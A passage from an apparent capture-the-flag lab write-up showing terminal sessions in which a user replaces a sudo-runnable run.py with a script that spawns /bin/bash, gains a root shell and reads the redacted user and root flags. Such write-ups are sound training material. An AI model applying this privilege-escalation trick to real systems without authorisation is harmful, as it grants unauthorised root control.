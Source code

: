 ```
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

```
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ ls -l
total 12
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rw-rw-r-- 1 cyber cyber  33 Oct  6 19:41 run.py
-rwx------ 1 root  root  349 Nov 15  2020 run.py.bak
cyber@ubuntu:~$ cat run.py
import os
os.system('/bin/bash')
cyber@ubuntu:~$ sudo python3 /home/cyber/run.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now just simply access where ever I want and get both **user flag** and **root flag**:

```
root@ubuntu:/home# ls -l
total 8
drwx------ 3 cyber cyber 4096 Oct  6 19:41 cyber
drwx------ 3 yash  yash  4096 Nov 17  2020 yash
root@ubuntu:/home# cd yash
root@ubuntu:/home/yash# ls -l
total 16
-rwx------ 1 root root 864 Nov 17  2020 emergency.py
-rw-rw-r-- 1 yash yash 167 Nov 17  2020 fernet
-rw-rw-r-- 1 yash yash  68 Nov 16  2020 flag2.txt
-rw--w---- 1 yash yash 295 Nov 15  2020 root.txt
root@ubuntu:/home/yash# cat flag2.txt
THM{[REDACTED]}

Sorry no ASCII art again :(
```

```
root@ubuntu:/home/yash# cd /root
root@ubuntu:/root# ls -l
total 4
-rw-r--r-- 1 root root 937 Nov 16  2020 root.txt
root@ubuntu:/root# cat root.txt
████████████████████████████████████
██                                ██
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██
████████████████████████████████████

                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859

THM{[REDACTED]}
```
